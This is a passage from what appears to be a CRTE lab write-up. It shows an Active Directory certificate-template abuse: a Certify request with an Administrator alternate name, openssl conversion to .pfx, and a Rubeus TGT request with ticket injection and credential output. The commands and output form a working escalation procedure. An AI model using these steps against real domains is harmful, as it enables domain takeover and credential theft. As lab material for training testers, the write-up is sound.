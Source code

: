 ```powershell
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : US\studentuser57
[*] No subject name specified, using current context as subject.

[*] Template                : ForAdminsofPrivilegedAccessWorkstations
[*] Subject                 : CN=studentuser57, CN=Users, DC=us, DC=techcorp, DC=local
[*] AltName                 : Administrator

[*] Certificate Authority   : techcorp-dc.techcorp.local\TECHCORP-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 49

<snip>
```
- We convert the `.pem` to `.pfx` and transfer the later to our machine.
```zsh
┌──(root🔱KaliVM)-[/home/…/Desktop/Training/CRTE/Tools]
└─# openssl pkcs12 -in administrator.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out administrator.pfx
Enter Export Password:
Verifying - Enter Export Password:
```
- We can now use the certificate to request a TGT for `us\Administrator`.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:us\Administrator /certificate:C:\Auditor\Loot\administrator.pfx /password:certpass /nowrap /ptt /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=studentuser57, CN=Users, DC=us, DC=techcorp, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'us\Administrator'
[*] Using domain controller: 192.168.1.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

<snip>

  ServiceName              :  krbtgt/us
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  12/4/2023 8:09:16 AM
  EndTime                  :  12/4/2023 6:09:16 PM
  RenewTill                :  12/11/2023 8:09:16 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  xUOvyyPvAJ7PDhdAx8GXjg==
  ASREP (key)              :  C3A653A3E938DC84FF93AF3B1244E082
```